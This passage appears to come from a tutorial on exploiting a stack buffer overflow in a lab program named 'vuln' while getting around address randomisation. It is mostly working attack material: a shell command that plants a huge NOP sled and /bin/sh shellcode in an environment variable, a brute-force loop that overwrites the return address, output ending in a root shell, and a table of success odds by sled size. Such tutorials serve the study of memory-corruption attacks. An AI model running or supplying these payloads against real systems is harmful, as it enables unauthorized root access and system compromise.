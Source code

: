 We could insert the nop sled + shellcode in an environment variable. Keep in mind that all the environment variables themselves are loaded on the stack. Moreover, the size limit of environment variables is huge. It turns out that on my machine I can create a NOP sled of 100,000!

So lets create an environment variable `SHELLCODE`:

```sh
export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
Now let's choose any random address somewhere in the middle, say `0xff881111`. Now run `vuln` program overriding the return address with this. To increase our chances of hittinh lets do this repeatedly using a `for` loop. 

```sh
test@linux ~ $ for i in {1..100}; do ./vuln $(python -c 'print "A"*112 + "\x11\x11\x88\xff"'); done
```

After a few runs, we get shell access!

```sh
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
# whoami
root
#
```

Sweet, isn't it?

Even if your machine does not support as big a NOP sled as I used, use binary search to choose the maximum allowed. I've listed the probabilities of various sizes:

|   Size of NOP Sled    |   Probability of shellcode execution   |  Average no of tries needed to succeed once
|   :--------------:    |   :--------------------------------:   |  :----------------------------------------:
|   40                  |   2.38418579102e-06                    |  419431
|   100                 |   5.96046447754e-06                    |  167773
|   500                 |   2.98023223877e-05                    |  33555
|   1000                |   5.96046447754e-05                    |  16778
|   10000               |   5.96046447754e-04                    |  1678
|   100000              |   5.96046447754e-03                    |  168
